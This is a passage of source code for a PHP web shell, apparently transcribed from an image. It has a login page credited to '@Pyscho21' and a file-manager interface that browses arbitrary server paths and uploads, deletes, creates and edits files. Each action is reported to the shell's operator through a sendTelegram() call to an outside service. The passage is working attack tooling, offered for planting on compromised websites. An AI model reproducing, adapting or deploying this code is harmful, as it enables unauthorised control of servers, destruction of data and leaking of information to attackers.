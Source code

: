     <input type="text" name="user" placeholder="Username"><br>
    <input type="password" name="pass" placeholder="Password"><br>
    <button class="login-btn" type="submit">Login</button>
    </form><div style="margin-top:30px;font-size:12px;">Coded by @Pyscho21</div>
    </body></html>';
    exit;
}

// === SHELL UI ===
$path = isset($_GET['path']) ? $_GET['path'] : getcwd();
if (!file_exists($path)) $path = getcwd();
chdir($path);
$files = scandir('.');

// === HANDLE FILE ACTIONS ===
if (isset($_FILES['upload'])) {
    if (@move_uploaded_file($_FILES['upload']['tmp_name'], $_FILES['upload']['name'])) {
        sendTelegram("[UPLOAD] ".$_FILES['upload']['name']." at ".getcwd());
    }
}

if (isset($_GET['delete'])) {
    $target = $_GET['delete'];
    if (is_file($target)) {
        unlink($target);
        sendTelegram("[DELETE FILE] $target at ".getcwd());
    } elseif (is_dir($target)) {
        rmdir($target);
        sendTelegram("[DELETE DIR] $target at ".getcwd());
    }
    header("Location: ".$_SERVER['PHP_SELF']."?path=".urlencode(getcwd()));
    exit;
}

if (isset($_POST['newfile'])) {
    file_put_contents($_POST['newfile'], '');
    sendTelegram("[CREATE FILE] ".$_POST['newfile']." at ".getcwd());
    header("Location: ".$_SERVER['PHP_SELF']."?edit=".urlencode($_POST['newfile']));
    exit;
}

if (isset($_POST['newdir'])) {
    mkdir($_POST['newdir']);
    sendTelegram("[CREATE DIR] ".$_POST['newdir']." at ".getcwd());
    header("Location: ".$_SERVER['PHP_SELF']."?path=".urlencode(getcwd()));
    exit;
}

if (isset($_GET['edit'])) {
    $target = $_GET['edit'];
    if (isset($_POST['content'])) {
        file_put_contents($target, $_POST['content']);
        sendTelegram("[EDIT FILE] $target at ".getcwd());
        header("Location: ".$_SERVER['PHP_SELF']."?path=".urlencode(getcwd()));
        exit;
    }
    echo '<html><head><title>Edit '.$target.'</title><style>
    body{background:#111;color:#0f0;font-family:monospace;margin:20px;}
    textarea{width:100%;height:80vh;background:#222;color:#0f0;border:1px solid #0f0;padding:10px;}
    .btn{background:#0f0;color:#000;padding:10px;margin-top:10px;cursor:pointer;}
    .btn:hover{background:#090;}
    </style></head><body>
    <form method="post">
    <textarea name="content">'.htmlspecialchars(file_get_contents($target)).'</textarea><br>
    <button class="btn" type="submit">Save</button>
    <a class="btn" href="?path='.urlencode(getcwd()).'">Cancel</a>